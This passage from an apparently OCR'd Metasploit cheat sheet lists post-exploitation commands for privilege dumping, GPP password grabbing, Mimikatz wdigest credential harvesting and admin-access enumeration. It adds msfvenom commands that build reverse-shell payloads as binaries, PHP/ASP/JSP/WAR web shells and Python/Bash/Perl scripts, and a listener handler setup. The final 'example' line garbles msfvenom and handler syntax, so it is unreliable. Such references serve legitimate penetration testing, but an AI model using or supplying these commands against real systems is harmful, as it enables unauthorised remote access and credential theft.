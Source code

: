     run post/windows/gather/win_privs // Metasploit show privileges of current user
    use post/windows/gather/credentials/gpp // Metasploit grab GPP saved passwords
    load mimikatz -> wdigest // Metasplit load Mimikatz
    run post/windows/gather/local_admin_search_enum // Idenitfy other machines that the supplied domain user has administrative access to
    set AUTORUNSCRIPT post/windows/manage/migrate

Meterpreter Payloads

    msfvenom –l //  List options

Binaries

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
    msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
    msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho

Web Payloads

    msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php            // PHP
    set payload php/meterpreter/reverse_tcp           //Listener
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php              // PHP
    msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp                   // ASP
    msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp // JSP
    msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war //  WAR

Scripting Payloads

    msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py //  Python
    msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh //  Bash
    msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl //  Perl

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
    msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f
    msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

    exploit/multi/handler
    set PAYLOAD
    set LHOST
    set LPORT
    set ExitOnSession false
    exploit -j -z

An example is:  msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension
Powershell

